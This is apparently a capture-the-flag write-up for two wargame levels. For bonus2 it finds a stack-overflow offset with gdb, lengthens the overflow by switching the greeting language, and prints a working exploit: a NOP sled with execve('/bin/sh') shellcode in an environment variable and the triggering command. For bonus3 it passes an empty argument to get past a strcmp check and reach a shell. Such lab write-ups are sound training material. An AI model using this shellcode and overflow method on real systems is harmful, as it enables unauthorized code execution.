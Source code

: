 If `username_part1` and `username_part2` are fully filled (72 chars), the program segfaults because `greetings`-buffer can not contains the username and "Hello " string.

We need to find the offset to override EIP register.

```shell
gdb-peda$ run `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  Invalid $PC address: 0x8004141
  Stopped reason: SIGSEGV
  0x08004141 in ?? ()
```

It override a part (2 bytes) of EIP register.

```shell
"Hello " + "A" * 0x28 + "B" * 0x20
    6    +     40   +    32    = 78 - 2 (bytes already overrided) = 76
=> offset at 76
```

We have to put a shellcode address at the index 76.

As `username_part1` and `username_part2` can not exceed 40 and 32 bytes, we need to change to language. "Hello" is longer in finnish or dutch.

```shell
"Goedemiddag! " + `username_part1` + `username_part2` + `SHELLCODE_ADDRESS`
      13        +        40        +        23        +          4         = 80

export LANG="nl"

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

/tmp/getenv SHELLCODE ~/bonus2
  0xbffff780

~/bonus2 `python -c 'print "A" * 40'` `python -c 'print "B" * 23 + "\x80\xf7\xff\xbf"'`
```

---

## Bonus3 - An easy one

To be able to exec the shell, the readed buffer and the first argument have to be equals.

The first argument is converted as integer with `atoi`. This number ends the buffer with a NULL character at this number index.

### Resolve

We just have to put an empty string as argument.

```shell
  argv[1] = ""

=> n = atoi(argv[1]) = 0
=> buf[n] = '\0'

=> strcmp(buf, argv[1]) == 0
```

We can get the last pass !

```shell
~/bonus3 ""
```
